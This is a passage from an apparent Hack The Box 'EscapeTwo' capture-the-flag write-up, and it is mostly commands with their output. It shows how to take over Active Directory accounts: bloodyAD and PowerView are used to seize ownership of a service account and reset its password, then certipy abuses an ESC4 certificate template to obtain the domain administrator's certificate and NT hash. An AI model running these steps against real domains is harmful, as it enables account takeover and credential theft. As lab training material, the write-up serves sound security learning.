
now lets give GenericAll for ryan for change password ca_svc

we will do same steps for them all

here is full commands

```bash
➜  escapetwo bloodyAD --host DC01.sequel.htb -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan     
[*] Current owner information below
[*] - SID: S-1-5-21-548670397-972687484-3496335370-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=sequel,DC=htb
[*] OwnerSid modified successfully!
➜  escapetwo bloodyAD --host DC01.sequel.htb -d sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3' add genericAll ca_svc ryan         
[+] ryan has now GenericAll on ca_svc
➜  escapetwo bloodyAD --host DC01.sequel.htb -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set password ca_svc 'NewPassword123!'
[+] Password changed successfully!
```

and bommm!!!

```bash
➜  escapetwo nxc smb DC01.sequel.htb -u ca_svc -p 'NewPassword123!'
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ca_svc:NewPassword123! 
```

### WriteOwner-Windows-Abuse

```powershell
*Evil-WinRM* PS C:\Users\ryan\Documents> upload PowerView.ps1

*Evil-WinRM* PS C:\Users\ryan\Documents> . .\PowerView.ps1

*Evil-WinRM* PS C:\Users\ryan\Documents> $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

*Evil-WinRM* PS C:\Users\ryan\Documents> Set-DomainObjectOwner -Identity CA_SVC -OwnerIdentity RYAN

*Evil-WinRM* PS C:\Users\ryan\Documents> Add-DomainObjectAcl -TargetIdentity CA_SVC -PrincipalIdentity RYAN -Rights All

*Evil-WinRM* PS C:\Users\ryan\Documents> Set-DomainUserPassword -Identity CA_SVC -AccountPassword $UserPassword
```

Nice lets check ca_svc.

## ADCS



its seems like about ADCS xD


and yeah here

```bash
                                          SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : 'SEQUEL.HTB\\Cert Publishers' has dangerous permissions

```

So its ESC4

### ESC4

Before jump ESC4 i wanna use https://github.com/lineeralgebra/autoADCS because it will show us what we need.



For example its asking template and we can give directly.

and it will create commands for us.

#### esc4-commands

```bash
certipy-ad template -username ca_svc@sequel.htb -password 'NewPassword123!' -template DunderMifflinAuthentication -save-old -dc-ip 10.10.11.51
certipy-ad req -username ca_svc@sequel.htb -password 'NewPassword123!' -ca sequel-DC01-CA -target sequel.htb -template DunderMifflinAuthentication -upn administrator@sequel.htb  -dc-ip 10.10.11.51                                                                                         
```

```bash
➜  autoADCS git:(main) ✗ certipy-ad template -username ca_svc@sequel.htb -password 'NewPassword123!' -template DunderMifflinAuthentication -save-old -dc-ip 10.10.11.51                                                                                             
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'DunderMifflinAuthentication' to 'DunderMifflinAuthentication.json'
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
➜  autoADCS git:(main) ✗ certipy-ad req -username ca_svc@sequel.htb -password 'NewPassword123!' -ca sequel-DC01-CA -target sequel.htb -template DunderMifflinAuthentication -upn administrator@sequel.htb  -dc-ip 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 30
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

and lets auth it

```bash
➜  autoADCS git:(main) ✗ certipy-ad auth -pfx administrator.pfx                                                   
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```